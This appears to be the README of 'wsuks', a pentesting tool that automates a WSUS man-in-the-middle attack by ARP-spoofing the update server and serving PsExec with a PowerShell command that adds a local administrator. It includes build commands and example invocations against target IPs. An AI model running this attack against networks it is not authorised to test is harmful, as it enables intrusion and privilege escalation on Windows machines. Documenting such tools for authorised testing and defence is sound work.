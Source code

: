 ### wsuks

_Automating the WSUS Attack_

Gaining local administrative access to a Windows machine that is part of a domain is typically the first step in gaining domain admin privileges during a penetration test. In many cases, the Windows Server Update Service (WSUS) is configured to deploy updates to clients over the local network using HTTP. Without the security of HTTPS, an attacker can mount a machine-in-the-middle attack to serve an update to the client, which will then execute with SYSTEM privileges. Any Microsoft signed executable can be served as an update, including a custom command with which the executable is executed.

To automatically exploit the WSUS attack, this tool spoofs the IP address of the WSUS server on the network using ARP, and when the client requests Windows updates, it serves PsExec64.exe with a predefined PowerShell script to gain local admin privileges. Both the executable file that is served (default: PsExec64.exe) and the command that is executed can be changed if required.\
By default, a Windows client will check for updates approximately every 24 hours.


Prerequisits:
- The target client must be on the local network
- The Windows Server Update Service (WSUS) must be configured using HTTP

Result:
- After successful execution the user provided will be added to the local admin group. If no user was specified a user with the format user[0-9]{5} (e.g. user12345) and a random password will be created

Implemented features:
 - [x] ARP spoofing the target
 - [x] Routing the ARP spoofed packets to the local HTTP server
 - [x] HTTP server to serve the malicious updates
 - [x] Automatic detection of the WSUS server
 - [x] Included PowerShell script and executable to gain local admin access


```bash
podman build -t wsuks .
podman run -it --name wsuks wsuks

wsuks -h


    __          __ _____  _    _  _  __  _____
    \ \        / // ____|| |  | || |/ / / ____|
     \ \  /\  / /| (___  | |  | || ' / | (___
      \ \/  \/ /  \___ \ | |  | ||  <   \___ \ 
       \  /\  /   ____) || |__| || . \  ____) |
        \/  \/   |_____/  \____/ |_|\_\|_____/

     Pentesting Tool for the WSUS MITM Attack
               Made by NeffIsBack
                 version: 1.0.0

usage: wsuks [-h] [-v] [--debug] [-ts]

options:
  -h, --help        show this help message and exit
  -v, --version     show program's version number and exit
  --debug           Enable debug output
  -ts, --timestamp  Add timestamp to log messages

Examples:
    wsuks -t 192.168.0.10 --WSUS-Server 192.168.0.2                                   # Generates a new user&password and adds it to the local admin group
    wsuks -t 192.168.0.10 --WSUS-Server 192.168.0.2 -u User -d Domain.local           # Adds the domain user to the local admin group
    wsuks -t 192.168.0.10 -u User -p Password123 -d Domain.local -dc-ip 192.168.0.1   # Turns on WSUS server discovery and adds the domain user to the local admin group
```